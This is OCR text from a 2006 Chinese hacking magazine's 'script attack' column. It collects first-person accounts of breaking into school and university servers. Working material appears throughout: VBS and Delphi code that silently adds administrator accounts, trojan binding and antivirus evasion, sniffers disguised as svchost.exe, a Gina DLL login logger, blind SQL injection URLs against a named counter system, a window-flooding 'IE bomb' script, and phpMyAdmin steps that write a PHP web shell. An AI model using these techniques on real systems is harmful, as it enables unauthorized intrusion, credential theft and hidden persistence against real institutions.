运行rad.reg,再net start alg我们的Radmin服务就启动了。这时可以看到ALG服务的属性变为如图12所示。


### 第二环 星号密码

一下子进了那么多台学校服务器,让我激动了好一会儿,在这几台服务器里瞎逛了一会,突然看到某台机子的桌面上有CuteFtp的图标,打开以后看到有个站点管理器。里面都是管理员常去的站点,右键点击了一个站点地址,打开站点


www.hacker.com.cn
2006精华本 下册

## 黑剑试验田 SCRIPT ATTACK
》栏目编辑/脚本小子/scriptboy@hacker.com.cn

属性。可以看到站点的用户名和密码。不过密码是星号显示的。这难不倒我们，上传个显星号密码的软件。我喜欢用还不到5k的arclder.exe。据说是世界上最小的显星号密码的软件。如图13所示。


图13

用户名为root
密码又那么复杂，
前三位还跟IP的后
三位一样，会不会
是管理员密码呢，
马上拿出终端连接
器试着连接。果然
不出所料，又进了
一部服务器了。

时我想其他同管理员的机子会不会也有这个规律呢？IP的后几位为密码的前几位。马上拿出superscan扫了这一段的IP的3389端口。拿出终端连接器试着连接，果然又有6部服务器给我连进去了，逛了一会儿发现这是学校的图书馆。后来发现这些服务器用的瑞星都是正版的，用显星号软件把它的ID显示出来。如图14所示。


图14

用在我的瑞星上就可以用智能升级了。

### 第三环 Web 提权

图书馆里面的FTP服务器都用G6 Ftp Server。以前没接触过G6 Ftp Server所以就认真看了看。在它的安装目录发现一个user.ini的配置文件。用记事本打开。如图15所示。


图15

里面用户名密码居然明文显示。在一个backup的目录里发现另一个Web服务器的user.ini备份，马上用记事本打开。用里面的用户名密码成功登录Web服务器，上传了海阳ASP木马，

用ASP木马在Web服务器上逛了一会，发现这是Windows 2003的系统，开了3389，没发现Serv-U。原来这服务器的FTP也是用G6ftpserver。开始想用MS04-020漏洞本地溢出来提权的，结果没成功。最后决定用捆绑vbs加用户的办法提

权，因为G6Ftpserver是服务器开机就运行的，所以决定在G6ftpsrv.exe里捆绑一个加用户的vbs，好处是运行时不会弹出窗口，加用户的vbs代码，如图16所示。

```vb
Dim oShell
Set oShell = Wscript.createObject("wscript.shell")
Return = oShell.Run("net user IUSE_WEB 123 /add", 0, TRUE)
Return = oShell.Run("net localgroup administrators IUSE_WEB /add", 0, TRUE)
```

图16

下载了服务器的G6ftpsrv.exe用MicroJoiner v1.7汉化版把G6ftpserver.exe和1.vbs捆绑为新的G6ftpserver.exe。把原来的G6ftpserver.exe改名。上传捆绑后的G6ftpserver.exe到服务器。结果被它的杀毒软件杀了。看来得改造一下。用FSG加了壳，上传上去想不到还是被杀。换了几款加壳工具都同一命运。后来在网上找到新发布的岁月联盟专用木马加壳器，用它的默认设置加了壳，结果加完壳后G6ftpserver.exe剩下6k，看来是加坏了，最后改了岁月联盟专用木马加壳器的设置，才把G6ftpserver.exe成功改装。如图17所示。


图17

试了一下能运行。上传到服务器上也没被杀掉，等了两天服务器终于重启了。在海阳里用net user IUSE_WEBS查看了一下，成功加了用户。马上用终端登录器连接，又成功进去了，参观了一下图书馆的Web服务器。

### 第四环 findpass2003

今天上网刚好下了两个找2003登录密码的findpass2003。一个是Envymask的另一个是WinEggDrop的，刚好试试它们威力，上传到图书馆Web服务器上。因为用Radmin的telnet登录，如图18所示。


图18

还以为会把已经登录的管理员密码找到，后来经过我反复测试发现，原来两个findpass2003找到的密码都是终端登录的最后登录者的密码。即使是注销了，密码也还在那。于是等了几天，管理员终于重新登录了。这次用findpass2003终于找到了管理员密码，密码没什么规律，试着登录其他服务器不成功，图书馆还有两部服务器没入侵成功，第二天想到了新办法。

### 第五环 sniff

为了入侵图书馆剩余的两部服务器，准备在Web服务器上装嗅探器。最后选择了xsniffer。它可以隐藏运行。并把结果写入文件。从工具箱找出xsniffer上传到服务

www.hacker.com.cn
黑客X档案 2006精华奉献本 下册

器,不幸马上被杀了。看来得改装一下。原来的xsniffer是没加壳的,给它加了FSG想不到还是被杀了。最后试了好几个壳都被杀了,最后用伯乐相马把xsniffer特征码替换了。如图19所示。


再加了FSG的壳才躲过了瑞星的追杀。因为xsniffer运行后在任务管理器里是看得到的。所以我把它改名为svchost.exe,这样增加了隐蔽性。在命令行输入：
svchost pass hide log passlog
这样它就在后台嗅探密码了。这时可以关了命令行,在找xsniffer时顺便找到很老的一个SQLserversniffer,刚好这台Web服务器开了MSSQL服务。把它脱壳用伯乐改特征码,加壳后上传到服务器上,但它不能像xsniffer一样能隐藏运行,它必须开着命令行。最后终于找到办法让它隐藏运行,就是用窗口隐藏器。如图20所示。
SQLserversniffer用法：
SQLServerSniffer.exe 1433 exehid


在命令行运行后用窗口隐藏器把整个命令行隐藏起来。我用的窗口隐藏器叫Hide Window。它自身用ALT+F8呼出和隐藏。有了它就可以给肉鸡装VNC,PCanywhere等等有图标的远程控制软件了。过了两天查看pass.log和1.txt果然嗅到了几个账户密码,接着很顺利进入另两台服务器。

### 第六环 MS04-007漏洞

这几天把学校网页服务器和图书馆服务器都入侵透了。我知道的网络就还剩教学楼网络了,通过这几天测试发现学校网管把整个校园网分成了两部分,一部分是学生宿舍网络。另一部分为学校机构网络。我在宿舍用superscan是扫描不了学校机构网络的服务器的,但可以终端登录。
所以要扫描教学楼服务器必须通过学校网页服务器或图书馆服务器。最新的溢出有Windows ASN.1远程溢出winasn.exe。于是我用终端登录一台网页服务器,尝试对教学楼服务器进行溢出。如图21所示。
成功进入了。用findpass找到管理员密码,用管理员密码登录教学楼每间教室的电脑都成功进入,哈哈。以后下课件就不用带U盘了。

### 第七环 国外网免费上

我们在教育网内,想上国外的网必须交钱买个账户。我在入侵时发现学校的某些服务器可以直接上外国网,于是决定装个代理免费上外国网。做代理一般都会选snake的代理跳板。但它早就已经被各个杀毒软件查杀,无论我怎么加壳都不行。我选择的是代理战车的candyproxy,可能用它的人少,至少现在还没被杀毒软件追杀。如图22所示。


它可以设置端口,改服务名。我写了一个candy.bat文件,代码如图23所示。作用是把代理端口设为1023,服务名为Print Service。只要把candy.exe和candy.bat放在一个文件夹下,运行candy.bat就成功安装了我们的代理。如图24所示。

```
@echo off
candy -setservicename "Print service"
candy -modifyport 1023
candy -install
candy -start
del candy.bat
```


以后就可以享受免费上外国网了。


#### 总结

从一个WebShell开始到整个学校服务器的全面入侵,可以说是一环扣一环。入侵就像撕布,只要找到一个口子,往下撕就非常容易了。正如前辈说的,安全是一个整体,不允许有一个小小的裂口。

适合读者: 脚本爱好者, 入侵爱好者
前置知识: 跨站基础

## COCOON Counter统计程序
### 暴库必杀技

文/图 沐百色

前几天我看了9xiao发的一篇文章《COCOON Counter统计程序后台写马》。上面提到了挂马,然后他在文章结尾写了一句”此统计程序还有暴库的地方,这个就不公布了!”看到后很是觉得可笑,要写就写完整点嘛,干嘛还要给读者留点悬念呢?这又不是写侦探小说。
好了,废话少说,节约时间!其实这个COCOON Counter的暴库漏洞一点也不神秘,很简单,大家肯定第一就会想到利用%5c吧,对!就是利用%5c来进行暴库的,为什么有很多人反映这招根本不行呢?先来看一下图吧。如图1 所示。


这个是正常页面我们再来利用%5c看看返回的效果。如图2 所示。
看到没有,不行。只是图片显示不出来了,并没有出错。我们再看。如图3 所示。


看到没有,数据库出来了,返回结果是:

```
Microsoft JET Database Engine 错误 '80004005'
D:\wwwroot\zyzn\wwwroot\db\db_CC_Ccoolbar520wu.mdb不是一个有效的路径。
确定路径名称拼写是否正确,以及是否连接到文件存放的服务器。
/tongji/Supervise\Login.asp, 行7
```

有人问,这是为什么呢?图2的为什么不行,其实原因是这样的,图2是把二级路径/变为%5c。不行是因为数据库连接文件不是放在那个目录,而是放在另外一个目录,而数据库也不是同数据库连接文件一个目录。必须暴三级路径才能暴出数据库地址来,比如:
http://www.zyzn.cn/tongji/Supervise%5cLogin.asp

这个暴库方法是通杀所有版本的!除了防暴代码以外!有什么问题请发mail来和我交流 chinalanker@yahoo.com.hk。

适合读者: 恶作剧爱好者,网民
前置知识: 无

### 无法阻挡的IE炸弹

文/图 洪燕杰

在家无聊想跟同学开开玩笑,想发给他一个恶作剧软件,但是一想到人家有杀毒软件,估计能被查杀,不知道的朋友还以为我发给他木马呢,到头来顶一个盗密码的罪名可不好。那只有自己做了,用VB写,简单是简单,但是我这个人还是怕麻烦哈,在心里想惦记的还有更简单的。想着想着,在zeta的小站上发现了一个:任何浏览器都可以弹广告的HTML代码,不会是吹的吧,我的2000可是打满补丁的!
代码如下

```html
<script>
for(i=0;i<2;i++){
document.write("<form name='form"+i+"' action=http://bbs.cn90.net target=_blank></form>");
eval("document.form"+i+".submit()");
}
</script>
```

action=http://bbs.cn90.net为要打开的地址,试了一下,发现可以马上弹出http://bbs.cn90.net的2个窗口,么是2个呢? 哦,一看代码一个简单的判断和循环,这句for(i=0;i<2;i++) 哈哈,灵感来了。把i<200会怎么样,就是一下打开200个IE窗口,哈哈,估计9.8的机子早蓝屏了吧,2000的机子内存也吃不消,马上发给同学说是我自己做的网页,哈哈,我那位同学马上下线,如果把i<200改成更大,威力更大,这个可以算是对本地的一种DOS!当然你也可以把上面的代码发到支持script的聊天室或者论坛里,效果一定不错!

适合读者：脚本爱好者，入侵爱好者
前置知识：SQL注入基础

### COCOON Counter 注入漏洞

文 / 图 CH3CHO

COCOON Counter是被广泛使用的网站流量统计系统之一，其界面整洁，统计数据详细，深得各个网站管理员的喜爱。虽然它的内部结构甚是简单，但其代码安全度却不容乐观（以下代码摘自COCOON Counter 6 [v:1960] 测试版）

拿来代码，自然要从外向传入数据的地方入手。见过这个系统的朋友一定知道，流量数据的输入是通过系统根目录count.js文件进行的，大家看代码

```javascript
var __cc_count = __cc_sys_url + "core/default.asp" + "?id=" + __cc_uid + "&l=" + __cc_Language + "&t=" + __cc_style + "&p=" + __cc_page + "&r=" + __cc_ref + "&s=" + __cc_Size + "&c=" + __cc_Color + "&v=" + __cc_visited + "&z=" + (new Date()).getTimezoneOffset()/60;
document.write('<a href="' + __cc_sys_url + 'supervise/index.asp?uid=' + __cc_uid + '" target="_blank"> </a>');
```

这里的uid就是统计网站在这个统计系统里注册的用户名，大家会注意到，所有的访问数据都是发送到/core/default.asp里的，我们再来看这个文件的信息处理代码

```vbscript
oCount.SetSite Request.QueryString("id")
oUser.SetPage Request.QueryString("p")+""
```

这里用到了SetSite这个函数，它被定义在/_Inc/Include.asp里，问题就出在它身上。

```vbscript
Public Function SetSite(siteUid)   '/ / 初始化站点
Dim sVarName, sSitel, oRs
sVarName = "cc_6_site_uid_" & siteUid
If not isEmpTy(sSiteId) and isNumeric(sSiteId) then sSiteId = sSiteId : Exit Function
sSqlString = "select siteId from t_Site where uid='" & siteUid & "'"
Set oRs = oConn.execute( sSqlString )
If oRs.EOF then
    Set oRs = Nothing : oConn.Close() : Set oConn = Nothing
    Response.Write("/* 站点未找到 */") : Response.End() : Exit Function
End If
siteId = oRs.Fields.item(0).Value
Application.Contents(sVarName) = siteId
Set oRs = Nothing
End Function
```

这里的siteUid就是网站浏览统计数据时的用户名，可爱的管理员竟然没做任何处理就把它放进了SQL查询语句，真是对我们的“极大信任”，很明显，它是可以被伪造的。

漏洞原理清楚了，下面咱们就来实践一下。找一个使用COCOON Counter 6的网站，这里我已经找好了，XX风采，它的流量统计用户名是xxcnc。如图1所示。

网站名称及图片均做过处理，请勿对号入座。进入


统计系统，路径是http://www.xx.cn/xxcount/supervise/index.asp?id=xxcnc。如图2所示。


祭出宝刀NBSI2，输入地址http://www.xx.xx.cn/xxcount/core/default.asp?id=xxcnc，开扫，不料NBSI报告Type Mismatch（类型不匹配），真是莫名其妙，还请各位牛人指点一二。

事情到了如此，我就只好手动猜解了，保存密码的表名是t_Site，用户名是UID，密码列是PWD，依次在浏览器里输入猜解语句，语句正确会返回一个小图标。如图3所示。

错误的话会返回“站点未找到”。如图4所示。

- 猜长度：
http://www.xx.xx.cn/xxcount/core/default.asp?id=xxcnc' and exists (select PWD from t_Site where UID='xxcnc' and len(pwd)=长度) and '1'='1'
猜字符：
http://www.xx.xx.cn/xxcount/core/default.asp?id=xxcnc' and exists (select PWD from t_Site where UID='xxcnc' and mid(pwd,1,1)='字符') and '1'='1'


网址http://www.xx.cn/xxcount/core/


## 黑客防线 SCRIPT ATTACK

栏目编辑:脚本小子<scriptboy@hacker.com.cn


default.asp?id=xxcnc' and exists (select PWD from t_Site where UID='xxcnc' and asc(mid(pwd,字符位置,1))=字符的ASCII码值) and '1'='1'

最终猜解结果是:密码17位,为xxcncxxxxx xxadmin,来到登录页面(http://www.xx.xx.cn/xxcount/supervise/login.asp),输入得到的用户名和密码,就看到了这个网站的流量统计数据。如图5所示。

令我们失望的是,即便来到了这里,我们也无法直接获得WebShell,这里的入侵一般只能作为一种社会工程学的方法来协助我们渗透网站。好了,冗长的代码已经浪费了好多版面,我就说到这里,有错漏的地方还烦请大家批评指正,下次见! //D

适合读者:脚本爱好者,入侵爱好者
前置知识:无

### 误入学校内网
#### ——突破学校流量计费系统

文/图 下雨天[F.S.T]

事情起因:学校要求每个系在两周之内把系网站重新改版,于是老师找到了我,交给我和一个研究生负责。和那个研究生师兄讨论了半天也没弄出个大体设计方案,哎。想到系里这么多组织机构还有什么系科协呀辩论队呀。头都大了。无意中老师说可以参考其他系的网站,参考吗?哈哈,于是有了我的这次经历。

#### 外网初探

很幸运的得到了一个WebShell呵呵,留言本暴库漏洞(数据库后缀名为ASP)加上<%execute request("value")%>的综合利用,我想大家都会了!(什么,你还不会,翻翻前面的文章!)蓝屏大叔的一句话马真不错哦!写个大马上去就成了呵呵。抓个我修改过的马儿。如图1所示。


有了WebShell就好办事多了,本来想打包他们的代码然后下载回来清马闪人的,不过那天晚上村长给我上思想课说黑基有文章说某大学生因入侵学校网站被开除……好害怕呀。心里没底,跟冰血封情聊了下(同一学校,嘿嘿)。他说网络中心那几个家伙还没这么强能查到入侵者(汗,万一出了事,开除的可是我呀!)还是小心为好。

后来我用海洋的马在服务器上乱逛,无意中我发现服务器的HTTP与FTP日志文件的目录,紧张起来,可是我进了之后才松了一口气。因为日志都是2004年的,我狂晕。如图2所示。


哈哈,既然你不开日志,我也只好对自己说运气好。哈哈,GO ON!看下服务器配置吧,4个CPU ,Microsoft Windows 2000 Advanced Server的系统,开了serv_u服务,哈哈!

serv_u本地提升权限就是爽,传了个su.exe上去后就提升权限成功了啦。然后传了个配置好的radmin上去用su.exe运行,正高兴的时候,发现连不上,汗。

```
用netstat -an 查了下
TCP 0.0.0.0:4899 0.0.0.0:0 LISTENING
```

狂晕,我配的端口不是4899呀,没办法,我两个端口都连吧,可惜一个也没连上,哭!后来又郁闷好久。(经过后来多次的测试,发现这个radmin并不是那么理想,嘿嘿!)难道做了端口过滤,如何突破呢?

删了上传的两个文件,关了机,去翻买的《黑客防线》。想到了端口转向技术,还没来得及去实践我就害怕再深一步了,那个该死的4899端口真害惨了我呀!于是跟无常大哥说了下我成功渗透了学校服务器,无常大哥叫我跟网络中心老师说下漏洞什么的,郁闷。没办法,我把我留的木马都删了(在某一个文件里加了一句冰狐,呵呵。方便以后来看看嘛)在D盘建了个hh.txt的文件说明一下我的入侵过程与漏洞所在简单说了下漏洞修补方法。建的test$ 12345 的账号我懒得删了。呵呵。

www.hacker.com.cn
2006 精华奉献本 下册

### 内网渗透思路分析篇

由于我的安全测试，无常大哥（本来该叫老师的不过以前叫习惯了）决定叫我去当二频的安全顾问。哈哈，所谓安全顾问也就是什么也不用做的啦！

首先遇到的是上网的问题。我们学校局域网用户如果访问校外网站则要通过校园的流量计费系统。晕了，像我这样经常去各大黑客站乱逛的家伙真是苦不堪言。于是决定继续我的渗透——免费出校！内网整个网络结构我到现在也没摸清楚，不过我倒是发现一点，有些机器可以直接出校，而且网络小组成员都是免费出校上网的。无意中我测试网络小组负责的校内下载系统，居然发现主机居然开了Telnet，telnet上去后出现。如图3所示。


原来他们用的是代理出校，嘿嘿，小样！于是我的思路清晰了：拿下一台服务器，装上代理，稍做一下安全留个后门，这样就可以突破流量计费系统了哈哈，想到这里，我快要“美死”了！拿哪台呢？上面这台机子就不拿了，因为上面已经装有代理了，如果要拿，上传漏洞得WebShell，CCProxy远程溢出，Serv_U FTP 是4.0版本而且在下载系统网站上公布了一个FTP账号，拿下不是难事！

正在这时，无常叫我登录二频服务器（2003系统）做安全！进了之后习惯性的net user了一下，发现有qky这个账号。问了一下无常大哥，才发现这家伙可是我们学校网络建设主要人之一呀！

安全做完了才有心情去继续渗透，不过也没什么大的进展，直到那天无常跟我说学校网络中心要查服务器叫我看紧点。我去登录那台2000的服务器用query user 发现有一个用户qky登录过并且已经断开了，马上想都没想将他logoff了。嗯，猛然想起我从外网入侵的那台机子上有一个用户名qky，二频服务器（2003系统）也有，而且2000也被加了一个qky的账号。于是就想是不是每台服务器都有他的账号。万一他用同一个密码或者接近的密码，如果在我管的服务器上搞到他的密码……想到这里不禁发现自己好聪明（其实是小聪明）。

后来又在我所管的服务器上发现了FTP有qky这个账号并且是系统权限。呵呵。远程终端加上FTP传输文件，这就是网络中心的管理方式吗？于是入侵的思路有我脑海有了一点，我画了好久终于画了一个入侵思路图解，只希望大家能看懂。如图4所示。


不过我最希望的是从QKY下手了，因为比较容易成功，而且一旦成功所影响的服务器可以说N多啦（肉鸡群呀，口水流出来了！）。

### 内网渗透技术实现篇

有了上面的分析，下面我们深入一点开始一个一个的实战。当然在实际的入侵中，我每个方法都有所尝试D，呵呵，不能在吊死在一颗树上嘛！

#### 1. findpass的终极利用

把findpass传了上去之后，我才后悔我刚才一时性急一个logoff断了我findpass终极利用之路。记得以前浪迹天曾写过可以找到只要图形化登录过的用户名的密码，和他讨论了一下才知道行不通。WHY？由于这2000的服务器的3389是我开的（我来之前无常一直用pcanywhere远程维护，后来我觉得不方便直接在上面运行了以前经常在肉鸡上用过的3389.exe）。所以在管理工具里没有终端服务，暴汗！跑到2003服务器上发现OKY这家伙居然只加了个账号却从来没有登录过，再汗！

#### 2. 记录终端用户账号密码

有一次去网站闲逛，发现了这个好东东不敢独享，下面给大家简单说一下：Gina木马是WinEggDrop写的一款特殊的DLL后门，用来记录在服务器上用来记录登录终端的用户账号和密码。一个是Gina.Dll（那个DLL木马），一个是fuck.exe，这个是安装DLL木马的。其使用方法不用多说，会CMD的人都知道。其实我最不想在我管的服务器上放后门的。不过为了出校，嘿嘿，别怪我哦！

```
E:\test>fuck view   //检查是否被人安装过这个DLL 木马
'GinaDLL Trojan Installer V1.0'By WinEggDrop'
The Key GinaDLL Can't Be Found
E:\test>fuck -install gina.dll/ /安装木马
GinaDLL Trojan Installer V1.0 By WinEggDrop
Set Gina Trojan Successfully
E:\test>
```

如果有人通过终端登录你的机器，那么他的用户名和密码就会被记录到”c:\winnt\system32\ wineggdrop. dat“这个文件中。安装后只要别人登录上去就可以查看战果了。用记事本打开：
c:\winnt\system32\wineggdrop.dat
LOOK下，这里是无常大哥登录服务器后我再登录服务器时抓到的图，哈哈。如图5 所示。


我对自己说 q k y ，就等你登录了。

#### 3. 暴破 SAM

首先我不得不说一下，好多次在那些大侠的文章中这样说到：用ASP马下载服务器的SAM文件然后暴破。经过本人的痛苦的实践，这才发现：完全是胡说，至少在2003系统下我连复制呀重命名都不让的。各位看官先不要急于骂我,看下面本鸟的实践吧:
爆破SAM我首先遇到的就是COPY的问题。我试了好多方法都没有COPY成功过!用系统的命令直接COPY或者直接复制出来是不可能的。下面说下我的思路吧,其实就是要解决权限问题!
我用到了一个小程序psu。因为他可以把当前的管理员用户提升到系统权限,不过很可惜没有成功。又试了N种方法,后来想到了AT命令,AT是系统服务启动。于是想写个批处理调用AT,后来发现AT中的时间我没办法改,郁闷哦!不过我想到了点就是写个批处理做成服务试下吧……乱想的!以下为我用dev C++写的一个小程序:

```
#include <iostream.h>
#include <stdlib.h>

int main()
{
system("copy c:\\windows\\system32\\config\\sam d:\\sam");
system("PAUSE");
return 0;
}
```

再简单不过了。运行结果如下:
```
另一个程序正在使用此文件,进程无法访问。
已复制         0 个文件。
请按任意键继续......
```

呵,说明我想要的功能实现了,编译成haha.exe传到服务器上把他做成服务(至于怎么做成服务,大家自己去发挥吧!)事实再一次无情的证明我错了。注销后没有在D盘看到我梦想中的SAM,郁闷(真不知道那些大侠们是如何实现的。呵呵!)
到这里基本上可以这样说 直接爆破SAM文件不太行了(连COPY都不让),还是去抓取HASH再去破解吧。用到的工具pwdump3,关于它的使用不想说了。如图6所示。
抓到的文件保存在haha.txt中。这样我们就可以拿出小工具saminside开始我们的漫长的爆破之旅了! file--import from *.txt这个选项打开上面的haha.txt来读取HASH,然后点那个黄色的三角形按钮就是开始破解了!不得不说一下,之所以用它,是因为懒得自己做字典而且它的设置你可以自己按需要在service——options下设置,抓个图吧。如图7所示。
已经跑出我的密码的最后一位


为4了! 一看关于SAM的写了这么多,真不好意思再说下去了,只是想对自己以及各位黑友们说,以后做技术不要浮于表面!

#### 4.爆破FTP密码

黑防上风之扬说得比较清楚了,我也不想多说。如图8所示。


MD5爆破,是没办法的办法,能否破出来,就看你字典厉害不厉害了!我在学校网站其它地方找到了他的QQ号,手机号等之类的呵呵,自己做了个字典去爆破,更接近成功!

#### 5.嗅探FTP密码

说起嗅探,那些高手都说是一种古老的黑客方法了,不过正因为古老所以像我这样接触电脑的小菜当然不太懂,呵呵,不过我还是成功的嗅探到了FTP密码,爽呀!
上百度找了一大堆的嗅探技术文章,最让我兴奋的是我找到了xsniff这个小工具,说明这样写的 简易的命令行方式嗅探器,可捕获局域网内FTP/SMTP/POP3/HTTP协议密码。FTP,够了。后来我发现在本地以命令行登录FTP很容易的就在服务器上嗅探到了密码。如图9所示。
后来我想,一般人不会用命令行来登录的,郁闷,那怎么办?测试了N久也没有成功,后来我把那些参数什么的都没写再测试,居然成功了,不敢相信哦,于是又测试了一次,果然可以哈哈,高兴死了,心里在喊,OKY,就等你进FTP了。呵呵。如图10所示。


#### 6.其他方法

其实我最希望的还是以上的方法,如果实在不行还得网页木马加社会工程学之类的了。下面的情况绝对属实。这安全顾问的名字真有吸引力呀,其实我没什么实力D!以下为聊天记录
有天猪头猪脑又来问我如何把服务器做的安全了。
↓下雨天♂ [;P]你到底想如何做

## SCRIPT ATTACK

}栏目编辑}脚本小子}scriptboy@hacker.com.cn

猪头猪脑 要不你帮我设置一下服务器
↓下雨天∮ 思可以的，保证做到绝对变态的设置
猪头猪脑 sctc.gliet.edu.cn创新在线服务器 用户名：sctcdaminhack$，密码 hacksystem还没改的。
进了之后发现端口都过滤好了，这家伙也开始用上我上次给他讲的方法来做安全配置了。
↓下雨天∮ 这些端口用来干什么的，说下，不能留下安全隐患
猪头猪脑 2004端口是 SQL用的，2005 远程桌面用另外开着 80 和 81,2} 3000 就可以了
↓下雨天∮ 晕，3000没听说过呀
猪头猪脑 3000我要用做 MIDAS的。
这不是送了台鸡给我吗？哈哈，得来全不费功夫，我看到240G的硬盘猛吞口水。那天晚上这家伙就改了密码，我又不好意思再向他要密码，于是用delphi写了个程序叫他帮忙看看（他可是编程很牛的哦），主要功能代码如下：

```
```
procedure TForm1.FormCreate(Sender: TObject);
begin
  form1.caption:='请教如何实现窗体隐藏';//改变窗体的caption属性
  WinExec(cmd.exe /c net user haha$ 123456 /add',SW_HIDE)
  ;//悄悄的运行我们的命令
  WinExec('cmd.exe /c net localgroup administrators haha$ /add',SW_HIDE); //同上
end;
```
```

运行成功后把fun.exe发给他……不用多说！
不过我并没有利用这台服务器出校，明显猪头猪脑不是吃素的哈哈，只跟他说借服务器硬盘一用放点东东。
下面开始办正事，有了以上的思路，我就把这些工具通通上传到服务器上开始了我的各个突破法：边用SAM暴破，边放了个xsniff隐藏嗅探FTP密码，还有那个DLL后门也在发挥其作用，现在只等待OKY的出场啦！
N天以后，终于看到了我想要的：不好意思，这老师一直没有终端登录服务，汗！暴破也没有实现，毕竟管理员的账号都比较变态。MD5暴破之路也没有成功，因为我做的字典不够厉害。不过收获还是有的，嗅探到了FTP密码，FTP密码就在眼前，你不知如何利用？我倒，我不说了吗，他可是系统权限哦！看图吧，懒得打字啦。如图1 1 所示。


就这样，我很幸运的拿下了一只超好的肉鸡并且可以直接出校的！其他有几台我不敢动啊！
玩就是免费

到这里渗透基本上完了。不过还有一个问题没有解决，那就是保证服务器在我的控制之下并且避免发现装的代理（实际上我也没做到，代理总得开口的吧，只希望管理员再懒点！）还是说下我的思路。

#### 1.克隆账号

根据以往入侵的经验，在2000上手工在注册表里克隆账号可以说是爽死了，想克隆谁就克隆谁（用禁用的GUEST登录也是一样的原理）不过在2003下不太成功，算了，我懒得克账号了。这里补充一下，尽量不要把系统弄坏了，以前的经验 黑基的那个Hide_admin很容易把系统弄坏哦，管理员在本地用户与组那里一看是一片空白的这下他什么都明白了！还是手工克隆好！

#### 2.留后门

我玩过的后门比较少，最爱的依然是radmin。关于它的配置教程网上N多建议，多看看，然后自己做一个。不过由于端口限制我舍弃了心爱的radmin，用了网上流传的在serv_u中加个DLL（蓝根山人的杰作）的方法。
PS:本来想做个自己的Serv_U的DLL后门的，因为用了lgsr的账号，总觉得不安全。不过百度GOOGLE了N久找到一些资料，和空虚浪子心研究了半天也没实现，结果把肉鸡的FTP弄崩溃了，一直到重启才恢复正常，汗！哪位大哥如果看到这里，希望指点一下我吧。当然你可以用自己的后门，喜欢就行，不容易被发现就行！

#### 3.做隐藏代理

前面好不容易的渗透成功了，不做个代理不让我白辛苦一趟呀，在网上找了N多，也没有关于在服务器上做隐藏代理的，不得不自己做了，虽然不太理想，总算比什么也不做好了些，呵呵！哪位大哥有更好的主意一定要告诉我哦！关键是隐藏呀，稍懂点的人都会看进程呀服务呀什么的，就会在进程里看到ccproxy.exe，这下你不死定了。顺便提下fport在2003上运行成功了一次以后，再也没有成功运行过了，在2000上一直正常，郁闷。。
说下我的思路，我的思路是这样的，先配置好代理并提取出那五个文件，然后写一个程序实现如下功能：判断文件是否存在，如果存在则直接运行，如果不存在则从别的地方（这里就是利用文件夹命名漏洞存放我们的原文件）拷贝过来并运行（怕肉鸡管理员在进程里发现了这几个文件删掉），主要功能实现代码如下，利用到了文件夹命名漏洞，有兴趣的可以去研究，在2003下测试成功！接下来你是把这个程序做成自己的服务呀还是替换系统其它的服务或者在注册表里做启动项什么的看你个人的发挥了，我是捆绑了serv_u中的ServUDaemon.exe，因为FTP安装成服务后运行的就是它！这里假设你把所需的文件传到了system32下面，好，我们稍微利用一下。

- 1)本地配置代理
Options的选项里选择Auto Hide实现自动隐藏，不要选择Auto Stratup，否则当另外一个用户登录服务器的时候会出现。如图12所示。
Options下面的Advanced下面的LOG看情况，你想要日志与否随你，不过一定要记得改日志文件地址。

www.hacker.com.cn
2006精华本 下册


## 脚本攻击

栏目编辑/脚本小子/scriptboy@hacker.com.cn


设快捷键，我没改！
2) 写个批处理，实现把所需的文件拷贝到建的inetsrv..\目录并且再拷贝到certsrv目录下面，并稍改一下名字。以下保存为haha.bat并放到c:\windows\system32\下，批处理代码请见光盘！
3) 开始写程序利用它，主要功能代码看光盘，我用c++Builder 6写的。
运行成功。在进程中发现有了我们这个程序的进程，按下你设的快捷键会出现代理的界面，我在2003测试成功！
下面开始捆绑，注意图标！(到这里大家可以各显神通，自己喜欢怎么样就怎么样吧，我是看中他的FTP服务了才捆绑的，哈哈。)如图13所示。


缺点 管理员一查进程就会发现我们的进程(我这里就不管了，管理员很懒的)。
`3760 svchost.exe C:\WINDOWS\system32\certsrv\svchost.exe`
不过，他肯定会删了这个目录下的这些代理程序的文件，不过很难发现我们的原文件，只要下次FTP服务启动的话就会自动执行我们的程序COPY并运行，这样我的目的就达到了，管理员肯定会郁闷得要命！
PS: 想更来点迷惑的，不过马上要考试了，再加上我写程序的能力几乎为0，以后还望大家给我一些指点！以后有时间更加完善它！
不多说了，设置好IE代理后就出现了心爱的百度啦！QQ默认是与IE设置一样的！给大家抓个图吧感受一下免费的好处！如图14所示。


有什么不懂或觉得小弟有什么地方写的有错误可以去www.wrsky.com讨论，一起进步，不吝指教！

### 入侵北大哲学系网站

适合读者：脚本爱好者、入侵爱好者、系统管理员
前置知识：PHP基础
文/图 SDRing

前几天一个同学联系我说想找一些哲学的资料看看，想趁假期学习学习，说http://www.phil.pku.edu.cn是北大哲学系网址，有个哲学论坛http://www.phil.pku.edu.cn/forum/但是没有账号，想请我活动活动(你说活动什么？小子，小心我爆你头！)
这么努力学习，我咋能不帮他呢？看看论坛认证方式。如图1所示。
晕！自己做的(不过后来到后台看出是discuz的)不愧是北大，不过不是有个guest请进吗？ 同学又补充说他想回复一下话题、顺便发表两篇，我倒！点发帖就出来这个。如图2所示。
这个上哪知道去找……乱试了几个，


不行。怎么办？突然想起phpMyAdmin来了，北京市八X中学就是利用这个入侵的，赶紧试试……如图3所示。
不是默认的，怎么找呢……用手工试得试到哪年去(估计没有一万年也找不到呀)。思考ing……
用Baidu搜索了一下路径，没想到进去了！如图4所示。
藏在这里了，它的数据库里还有MySQL这个库，这样就可以用国外Hacker的获得Shell了。

www.hacker.com.cn
2006精华奉献本 下册
150

## SCRIPT ATTACK

>栏目编辑|脚本小子|scriptboy@hacker.com.cn

先看它的网站绝对路径，点击“Show PHP information”找到这一项，确认绝对路径E:\inetpub\wwwroot(也可通过爆界面得出，php很容易爆出绝对路径)。如图5所示。


然后点击SQL(确认DATABASE里已经选择了mysql(7))，在输入框里输入以下内容：

```sql
CREATE DATABASE remoteshell;
use remoteshell;
CREATE TABLE shell (codetab text);
```

执行成功后新建了一个数据库 remoteshell。如图6所示。

点击进入后再点SQL，输入下列代码。如图7所示。

包括得到的绝对路径和输出的文件名称。呀！出错了！如图8所示。

竟然不可写……又试了好多路径，都没戏，怎么回事？如果执行成功，会出现一个网页cmdSHELL，继承PHP权限。如图9所示。(以前测试八X网站执行成功后的截图)

```sql
INSERT INTO shell (codetab) VALUES ('<?$cmd = $_REQUEST["cmd"];
$str=implode('',file($cmd));//echo $str;
?>
');
